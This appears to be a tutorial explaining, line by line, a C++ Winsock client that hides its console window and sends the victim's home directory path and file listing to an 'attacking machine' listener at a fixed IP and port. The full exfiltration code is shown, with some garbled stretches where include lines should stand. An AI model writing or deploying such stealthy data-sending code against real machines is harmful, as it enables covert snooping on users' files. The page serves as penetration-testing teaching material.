

client socket(C++ program)
The c++ full code can be accessed
HERE#define _WINSOCK_DEPRECATED_NO_WARNINGS
we used older functionalities of winsock utilities and we do not want the compiler to complain about this
#pragma comment(lib, "Ws2_32.lib")
tells the linker to add the "Ws2_32.lib" library to the list of library dependencies(remember that filenames are case-insensitive on typical Windows filesystems so "ws2_32.lib" is the same)
Some compilers, like Dev-C++ ignores #pragma directives so we have to the tell the compiler to add the Ws2_32.lib when calling the linker on the command line with
-lws2_32.
We can do that on Tools→ Compiler Oprions
standard input/output utilities
header file that contains most of the Winsock functions, structures, and definitions
standard input/output utilities
standard input/output utilities
directory utilities
string utilities
char* userDirectory(){
char* pPath;
pPath = getenv ("USERPROFILE");
if (pPath!=NULL){
//printf("%s\n", pPath);
return pPath;
}
else{
perror("");
}
}• The
getenv() function → char* getenv( const char* env_var );
In C++ returns a pointer to a C string containing the value of the environment variable(e.g.:PATH, USERPROFILE...) passed as argument.
• The
perror("") function → void perror ( const char * str );
Interprets the value of errno as an error message, and prints it to stderr (the standard error output stream, usually the console). The
str string (in our case “”) contain a custom message that is printed before the error message itself
main function
int main()
{
ShowWindow(GetConsoleWindow(), SW_HIDE);
WSADATA WSAData;
SOCKET client; // SOCKET is an int in fact we can also declare: int client;
SOCKADDR_IN addr;
WSAStartup(MAKEWORD(2, 0), &WSAData);
client = socket(AF_INET, SOCK_STREAM, 0);
addr.sin_addr.s_addr = inet_addr("172.16.160.3"); // listening IP
addr.sin_family = AF_INET;
addr.sin_port = htons(5555); //listening port
connect(client, (SOCKADDR_IN *)&addr, sizeof(addr));
//printf("conntected");
char* pPath = userDirectory();
send(client, pPath, sizeof(pPath), 0);
DIR *dir;
struct dirent *ent;
if ((dir = opendir (pPath)) != NULL) {
/* print all the files and directories within directory */
while ((ent = readdir (dir)) != NULL) {
send(client, ent->d_name, sizeof(ent->d_name), 0);
}
closedir (dir);
} else {
/* could not open directory */
perror ("");
}
////clean up
closesocket(client);
WSACleanup();
}
•
ShowWindow(GetConsoleWindow(), SW_HIDE); is used to hide the command window. we don't want that the user notice that the program has started
If we want to show it we use: ShowWindow(::GetConsoleWindow(), SW_SHOW);
•
WSAStartup(MAKEWORD(2, 0), &WSAData); ◇ MAKEWORD function is used to specify the version of Winsock that we want to use( in our case 2.0), MAKEWORD is a function that create a concatenation of two 8 bit numbers(so in total 16bit),so in our case
2(00000010)+0(00000000)= 0000001000000000
◇ &WSAData is a pointer to the WSADATA data structure WSAData that is populated with Windows Sockets informations like the version that we have requested(2.0) and some other informations.
•
client = socket(AF_INET, SOCK_STREAM, 0); This call results in a stream socket with TCP protocol providing the underlying communication
the socket function → int socket(
int domain,
int type,
int protocol)
creates a socket in the specified
domain and of the specified
type. These are constants defined in sys/socket.h
domain: AF_INET, AF_UNIX...
type: SOCK_STREAM, SOCK_DGRAM...
protocol: If the protocol is unspecified (value 0), the system selects a protocol that supports the
requested socket type.
•
sockaddr_in addr has this structure:
#include <netinet/in.h>
struct sockaddr_in {
short sin_family; // e.g. AF_INET
unsigned short sin_port; // e.g. htons(5555)
struct in_addr sin_addr; // see struct in_addr, below
char sin_zero[8]; // zero this if you want to but not necessary
};
struct in_addr {
unsigned long s_addr; // load with inet_aton()
};
◇
addr.sin_family = AF_INET;
we match the domain used in the socket call
◇
addr.sin_port short integer remote port number from host byte order(usually
Little-endian=opposite of Big-endian) to network byte order(
Big-endian=most significant byte first and the least significant byte last),
converted using → unsigned short htons(unsigned short a);
◇
addr.sin_addr.s_addr = inet_addr("172.16.160.3"); The inet_addr("172.16.160.3") function→ in_addr_t inet_addr(const char *cp);
converts a string into a numeric IPv4 Internet address
The IPv4 that we have inserted, is the IP of the attacking machine from where we are listening
Anyway now this function is deprecate because doesn't support IPv6
•
connect(client, (SOCKADDR *)&addr, sizeof(addr)); this call connects the socket referred to by the file descriptor
client to the address specified by
addr,
addr is been converted from SOCKADDR_IN to SOCKADDR because the function connect()
accept only that → int connect(int
socket, struct sockaddr *
address, socklen_t address_len);
•
char* pPath = userDirectory(); new local variable pPath is declared and user’s directory is assigned to it
•
send(client, pPath, sizeof(pPath), 0);
◇ The requested pPath is sent to the penetration tester on the previously set ip address and port.
◇ This is the format of the function → ssize_t send(int sockfd, const void *buf, size_t len, int flags);
The int flags setted to
0 is the default behaviour and so is equivalent to the function write →
ssize_t write(int fs, const void *buf, ssize_t N);
But while send() is particularly used for sockets, write() can also be used for streams and memory objects.
◇ Difference
size_t and
ssize_t: size_t is used to return a size in bytes, while ssize_t to return a size in bytes or a (negative) error value. The first s in ssize_t means signed.
•
opendir (pPath) → DIR *opendir(const char *dirname);
opendir() function returns a pointer to an object of type DIR so that it can be read with the readdir() function. Otherwise, a null pointer(NULL) is returned and errno is set to indicate the error.
The type DIR, is defined in the header <dirent.h>, represents a directory stream, which is an ordered sequence of all the directory entries in a particular directory.
• readdir(dir) → struct dirent * readdir(DIR *dirp);
has this structure:
struct dirent {
ino_t d_ino; /* inode number */
off_t d_off; /* offset to the next dirent */
unsigned short d_reclen; /* length of this record */
unsigned char d_type; /* type of file; not supported
by all file system types */
char d_name[256]; /* filename */
}; The readdir() function return a pointer to a structure representing the directory entry
at the current position in the
directory stream specified by the argument dirp(
dir), and position the directory stream
at the next entry. It shall return a null pointer upon reaching the end of the
directory stream.
•
send(client, ent->d_name, sizeof(ent->d_name), 0); ent->d_name is essentially a shorthand notation for (*ent).d_name, ent->d_name is accessing the property d_name of the object that ent points to.
{kind=link}